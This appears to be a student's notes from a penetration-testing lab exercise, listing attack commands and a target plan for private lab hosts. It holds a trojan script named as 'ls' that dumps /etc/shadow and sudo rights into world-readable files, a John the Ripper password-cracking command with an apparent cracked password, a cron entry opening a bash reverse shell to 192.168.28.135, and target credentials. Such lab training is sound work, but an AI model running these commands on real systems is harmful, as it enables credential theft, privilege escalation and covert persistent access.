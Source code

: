 ## Script for 
### vim /tmp/ls
    #!/bin/bash
    cp -r ~ /tmp
    chmod 777 /tmp/billybob
    sudo cat /etc/shadow > /tmp/shadows
    chmod 777 /tmp/shadows
    sudo -l > /tmp/sudooos
    chmod 777 /tmp/sudooos
__________________________________________________________________________________________________________________
## John the ripper
### papa john
    john --wordlist=/home/student/billybob/10-million-password-list-top-10000.txt crackthese.txt
su zeus

ghjcnbnenrf
__________________________________________________________________________________________________________________
## Crontab -e
### disgusting gnu nano (select the vim option)
    * * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.168.28.135/33403 0>&1'
__________________________________________________________________________________________________________________
# Scheme of Maneuver:
## >Jump Box
## ->Pivot:192.168.28.105
## --->T1: 192.168.28.27
## --->T2: 192.168.28.12

## Target Section:

### Pivot
### Hostname: Donovian-Terminal
### IP: 192.168.28.105
### OS: Ubuntu 18.04
### Creds: comrade :: StudentReconPassword
### Last Known SSH Port: 2222
### PSP: rkhunter
### Malware: none
### Action: Perform SSH masquerade and redirect to the next target. No survey required, cohabitation with known PSP approved.

### T1
### Hostname: unknown
### IP: 192.168.28.27
### OS: Linux ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: unknown
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.

### T2
### Hostname: unknown
### IP: 192.168.28.12
### OS: Linux ver: Unknown
### Creds: comrade :: StudentPrivPassword
### Last Known Ports: unknown
### PSP: unknown
### Malware: unknown
### Action: Test supplied credentials, if possible gain access to host. Conduct host survey and gain privileged access.
